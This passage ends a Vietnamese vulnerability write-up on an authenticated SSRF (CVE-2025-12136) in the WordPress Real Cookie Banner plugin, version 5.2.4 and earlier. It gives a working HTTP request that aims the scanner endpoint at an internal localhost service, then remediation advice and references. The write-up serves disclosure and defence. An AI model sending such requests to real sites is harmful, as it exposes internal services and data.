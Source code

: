 3. Chỉnh sửa URL và gửi:

```http
GET /wp-json/real-cookie-banner/v1/scanner/scan-without-login?_v=1761578838&_locale=user&url=http://localhost:8001/metadata&jobId=65 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: application/json, */*;q=0.1
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/admin.php?page=real-cookie-banner-component
X-WP-Nonce: 83df92a708
Connection: keep-alive
Cookie: wp-settings-time-2=1761542750; wordpress_test_cookie=WP%20Cookie%20check; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=admin%7C1761754193%7CRyskfS8SL8JqeXoDqo9gGiN5eiEbjBx5EZ73dRIjmyt%7C19f099619d5257dcc6f5828078065f2e92c2945b71c28fea0d11612e83c42ec6; wp-settings-time-1=1761581951
```

**Result**:

![Result](result.png "Nội dung đọc được từ local service")

## Conclusion

Phiên bản **≤ 5.2.4** của **Real Cookie Banner** chứa lỗ hổng **SSRF** tại endpoint `/wp-json/real-cookie-banner/v1/scanner/scan-without-login`. Hàm `routeScanWithoutLogin()` nhận `url` từ client rồi gọi `wp_remote_get()` và trả về nguyên vẹn `body`/`headers`, cho phép kẻ có quyền Administrator (hoặc session admin bị chiếm) đọc/tra cứu tài nguyên nội bộ. Bản **5.2.5** đã thêm kiểm tra domain (so sánh host với domain của job) để ngăn URL ngoài phạm vi và giảm nguy cơ; việc chuyển sang `wp_safe_remote_get()` và bổ sung kiểm tra bổ trợ là cần thiết để bảo vệ tốt hơn.

## Key takeaways

* Cập nhật plugin lên **5.2.5+** ngay lập tức.
* Không tin tưởng URL từ client — validate/normalize và áp allowlist domain trước khi fetch.
* Chặn request tới IP private/loopback sau khi resolve DNS (127.0.0.0/8, 10/8, 192.168/16, fc00::/7, v.v.).
* Hạn chế quyền gọi endpoint; không cấp cho tất cả user, tránh `__return_true`.
* Tránh forward credentials/cookies nội bộ; không trả nguyên header/body thô nếu không cần thiết.
* Dùng `wp_safe_remote_get()` kết hợp kiểm tra redirect, timeout, và SSL; log và giới hạn kích thước body trước khi trả về client.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress Real Cookie Banner Plugin <= 5.2.4 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/real-cookie-banner/vulnerability/wordpress-real-cookie-banner-gdpr-eprivacy-cookie-consent-plugin-5-2-4-authenticated-admin-server-side-request-forgery-via-scan-without-login-endpoint-vulnerability) 

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-29-cve-2025-12136/  

